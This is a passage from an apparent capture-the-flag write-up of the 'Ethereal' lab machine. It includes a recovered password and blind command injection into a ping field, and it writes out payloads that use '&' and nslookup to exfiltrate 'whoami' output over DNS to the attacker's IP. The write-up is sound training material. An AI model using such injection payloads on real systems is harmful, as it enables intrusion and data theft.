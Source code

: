 <br> Password : `!C414m17y57r1k3s4g41n!`
<br>
<hr>
## Blind RCE
<br> Now after we login we get the "Test Connection" page and we have an input for the ip address to ping. 
![](/images/hackthebox/ethereal/32.png)
<br> Now we can try to bypass that and inject system commands using `&` or `|` , but we don't get any output. I also tried to host `nc.exe` on a python http server and used `certutil` to download it but the python server didn't get any requests. Finally when I ran responder `responder -I tun0` then did this `10.10.xx.xx & nslookup test 10.10.xx.xx`
![](/images/hackthebox/ethereal/33.png)
<br> I finally got something :
![](/images/hackthebox/ethereal/34.png)
<br> We can try to execute a system command and get the output by doing this :
`10.10.xx.xx & for /f %i in ('whoami') do nslookup %i 10.10.xx.xx`
![](/images/hackthebox/ethereal/35.png)
<br> This is executing `whoami` then taking the output and doing nslookup with the output to our ip :
![](/images/hackthebox/ethereal/36.png)
<br> We get `etherealalan` and that's unusual as we expected `ethereal\alan`.